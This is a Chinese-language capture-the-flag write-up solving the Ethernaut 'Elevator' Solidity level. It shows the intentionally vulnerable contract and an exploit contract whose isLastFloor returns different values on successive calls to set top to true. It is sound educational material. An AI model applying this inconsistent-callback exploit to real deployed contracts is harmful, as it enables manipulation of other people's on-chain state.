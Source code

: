 ```yaml
---
title: Ethernaut - Elevator
categories: [Ethernaut]
tags: [以太坊, 智能合约, Ethernaut]
date: 2024-12-23
---
```


电梯不会让你达到最顶层。

- Sometimes solidity is not good at keeping promises.

很神秘的一句话。

<!--more-->

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

我自己得写一个合约，作为Building，提供一个isLastFloor函数。那我让他第一次调用返回false，第二次被调用返回true即可。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IElevator {
    function goTo(uint256 _floor) external;
}

contract Building {
    bool isFirst;

    constructor() {
        isFirst = true;
    }

    function isLastFloor(uint256 _floor) external returns (bool) {
        if (isFirst) {
            isFirst = false;
            return false;
        } else {
            return true;
        }
    }

    function goTo(uint256 _floor) public {
        IElevator elevator = IElevator(0x295591a34Cfac609f4A6A7B5D8D5BdcAC8987dBF);

        elevator.goTo(_floor);
    } 
}
```

这关的启示是view和pure函数，他们不会修改合约的状态。

view只会读取状态，pure既不读取也不修改。

